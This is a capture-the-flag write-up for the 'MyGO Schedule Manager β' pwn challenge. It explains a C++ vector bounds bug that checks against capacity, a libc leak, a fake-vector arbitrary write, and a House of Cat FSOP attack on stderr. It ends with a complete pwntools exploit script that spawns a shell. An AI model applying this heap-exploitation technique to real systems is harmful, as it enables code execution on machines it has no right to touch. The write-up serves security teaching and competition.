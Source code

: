 # MyGO Schedule Manager β
> Author: 堇姬Naup

## analyze code

First, you need to login. Just input `MyGO!!!!!` in username and `TomorinIsCute` in password.

And then you will look four function about manipulate schedule.

1 -> add
2 -> edit
3 -> delete
4 -> show

`add_schedule` need to input a string which you want to emplace_back to schedule (std::vector<std::string>).
It'll check scedule not bigger than 4.

`edit_schedule` it need to two input. `index` and `string` 
It will edit schedule[index] to your input string.
And it will check your input not bigger than vector capacity(It is so strange, but let me later to descript it. It is this challenge core) 

`delete_schedule` is look like previous function.
User need to input index, it will erase vector.begin()+index.
This part check is the same, it check vector capacity.


Last function is show_schedule. It will show your schedule's string content.
And check is vector capacity.

PS: It has operation's times limit.

## Some Knowledge
First we need to know `std::vector` and `std::string` structure.
This is std::vector
| offset | description |
|--------|-------------|
| 0x0 | array's first element pointer |
| 0x8 | vector end pointer |
| 0x10 | array's capacity limit pointer  |

Anthor is std::string
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

OK, now you need to know vector capacity.
When vector need to let its capacity more bigger?
The answer is $2^n, n \in \{ 0, 1, 2, 3, \dots \}$
If it need to expand its capacity.
It will free origin chunk which store vector elements structure.
And alloc new chunk.

## analyze bug
We know vector's capacity will be expanded in advanced.
So, when vector elements count is 3.
Its capacity is four.

It will access out of vector's have element part.
So first we alloc 0x500 size std::string, and alloc 0x10 size(When you free 0x500, let your unsorted bin not consolidate to top chunk.)
And free 0x10 and free 0x500.
And you show chunk 0x500, fd and bk's libc address will be show.
We will leak libc (erase just destroy, not go to clear vector's element)
```c
iterator erase(iterator position){
    if(position + 1 != end()){
        copy(position+1,finish,position);
}
    --finish;
    destroy(finish);
    return position;
}
```

And we alloc one chunk, and input it like a fake vector (4 elements).
Fourth element 0x0 change to `You want to write address` (This is pointer point to data), and free this chunk.
0x8 and 0x10 set how many bytes you want to write.

Alloc three chunk:
When you allocate third chunk, vector capacity will be expanded to 4 and alloc new chunk store element struct.
In advanced, you have been freed one chunk which have written fake vector will be catch to use and fourth element have been put fake vector which point to `You want to write address`. 

When you read C++ source code, new allocate chunk didn't clear its chunk memory.

And it check index by capacity, so we can access this fake pointer(If we don't have UAF, when you add new schedule, your fake pointer will be overwritten).
OK, So we will get arbitrary write on libc (std::string).

We use house of cat (FSOP) and overwrite stderr. And when this binary exit, We will get shell.
PS: patch libc let you can success exploit on glibc 24.04

If you don't understand, go to read my script.

PS: More information go to read c++ source code
https://github.com/Naupjjin/gcc/tree/master

## script
```python
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

#### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 127.0.0.1 51001")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO
def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def add(item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"Input item > ", item)

def edit(idx, item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"Index > ", str(idx).encode())
    sla(b"Edit item > ", item)

def delete(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"Index > ", str(idx).encode())

def show(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")
    sla(b"Index > ", str(idx).encode())

def exitf():
    sla(b"< MyGO @ ScheduleManager $ > ", b"5")

### exploit

login()
add(b"a" * 0x500)
add(b"b" * 0x10)
delete(1)
delete(0)

show(0)
r.recvuntil(b'] is ')
leaklibc = (u64(r.recvline().strip()[:6].ljust(8,b'\x00')) << 8 ) + 0x20
libcbase = leaklibc - 0x203b20


IO_STDERR = libcbase + 0x2044e0
libc_system = libcbase + 0x58740

payload1  = p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(IO_STDERR) + p64(0x1d0) + p64(0x1d0) + p64(0)

add(payload1)
delete(0)

add(b'Tomorin')
add(b'Soyorin')
add(b'Rana')

libc_IO_wfile_jumps = libcbase + 0x202228
emptylibc = libcbase + 0x204bc0
fakew_data = IO_STDERR
fake_wow = IO_STDERR + 0x18

payload2  = b"\xd0\x06;sh;".ljust(8, b"\x00") # _flags

payload2  = payload2.ljust(0x20, b"\x00")
payload2 += p64(1)
payload2  = payload2.ljust(0x30, b"\x00")
payload2 += p64(libc_system)
payload2  = payload2.ljust(0x70, b"\x00")
payload2 += p32(2)
payload2  = payload2.ljust(0x78, b"\x00")
payload2 += p64(0xffffffffffffffff)
payload2  = payload2.ljust(0x88, b"\x00")
payload2 += p64(emptylibc) + p64(0xffffffffffffffff)
payload2  = payload2.ljust(0xa0, b"\x00")
payload2 += p64(fakew_data) 
payload2  = payload2.ljust(0xc0, b"\x00")
payload2 += p32(1)
payload2  = payload2.ljust(0xd8, b"\x00")
payload2 += p64(libc_IO_wfile_jumps + 0x30) + p64(fake_wow)

edit(3, payload2)


sl(b"5")

NAUPINFO("LEAKLIBC", hex(leaklibc))
NAUPINFO("LIBCBASE", hex(libcbase))
NAUPINFO('STD ERROR', hex(IO_STDERR))
### interactive
ita()
```








